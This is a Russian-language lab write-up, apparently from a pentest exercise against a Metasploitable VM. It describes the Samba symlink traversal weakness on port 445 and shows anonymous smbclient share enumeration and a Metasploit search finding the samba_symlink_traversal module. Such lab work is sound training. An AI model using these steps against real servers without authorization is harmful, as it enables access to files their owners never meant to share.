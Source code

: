 
### Уязвимость 3 на 445 порту - 	samba_symlink_traversal

![samba](img/img%202023-03-25%20153646.png)

Samba, если он настроен с возможностью записи общим файловым ресурсом и включенными "wide links" (по умолчанию включено), также может использоваться в качестве своего рода бэкдора для доступа к файлам, которые не предназначались для совместного использования. В приведенном ниже примере модуль Metasploit используется для предоставления доступа к корневой файловой системе с помощью анонимного соединения и записываемого общего ресурса.

```bash
┌──(kali㉿makhota-kali)-[~]
└─$ smbclient -L //192.168.56.109
Password for [WORKGROUP\kali]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            


msf6 > search samba traversal

Matching Modules
================

   #  Name                                         Disclosure Date  Rank    Check  Description
   -  ----                                         ---------------  ----    -----  -----------
   0  auxiliary/admin/smb/samba_symlink_traversal                   normal  No     Samba Symlink Directory Traversal


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/smb/samba_symlink_traversal                                     
```